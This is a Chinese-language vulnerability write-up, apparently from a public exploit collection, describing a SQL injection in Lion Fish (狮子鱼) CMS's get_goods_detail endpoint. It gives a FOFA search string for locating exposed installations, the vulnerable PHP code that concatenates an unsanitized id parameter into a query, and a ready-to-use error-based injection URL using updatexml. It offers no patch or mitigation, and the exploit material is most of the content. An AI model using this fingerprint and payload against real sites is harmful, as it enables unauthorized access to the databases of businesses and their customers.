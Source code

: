 # 狮子鱼CMS ApigoodsController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php 参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 狮子鱼CMS

## FOFA

> [!NOTE]
>
> "/seller.php?s=/Public/login"

## 漏洞复现

登录页面如下

![](image/szy-1.png)

存在漏洞的文件为 **ApigoodsController.class.php **, 关键位置为

```php
 public function get_goods_detail() {
        $id = I('get.id');
        $pin_id = I('get.pin_id', 0);
		
		$token = I('get.token');
		
		$weprogram_token = M('weprogram_token')->field('member_id')->where( array('token' =>$token) )->find();
		$member_id = $weprogram_token['member_id'];
		
		
		 
		
        $need_data = array();
        $sql = "select g.*,gd.description,gd.is_untake_level,level_discount,gd.video_src,gd.video_size_width,gd.vedio_size_height,gd.is_video,
            gd.summary,gd.share_title,gd.activity_summary,gd.tag from " . C('DB_PREFIX') . "goods g," . C('DB_PREFIX') . "goods_description gd where g.goods_id=gd.goods_id and g.goods_id=" . $id;
        $goods = M()->query($sql);
        $pin_model = D('Home/Pin');
        $goods_model = D('Home/Goods');
        $qian = array(
            "/Uploads/image"
        );
		$c_site_url = str_replace('/dan','',C('SITE_URL'));
        $hou = array(
            $c_site_url . "/Uploads/image"
        );
		$goods[0]['video_src'] = C('SITE_URL')."Uploads/image/".$goods[0]['video_src'];
		
        $goods[0]['description'] = str_replace($qian, $hou, $goods[0]['description']);
        $goods[0]['description'] = htmlspecialchars_decode($goods[0]['description']);
        $qian = array(
            "\r\n"
        );
```

![](image/szy-6.png)

漏洞测试为

```
https://xxx.xxx.xx.xxx/index.php?s=apigoods/get_goods_detail&id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```

![](image/szy-7.png)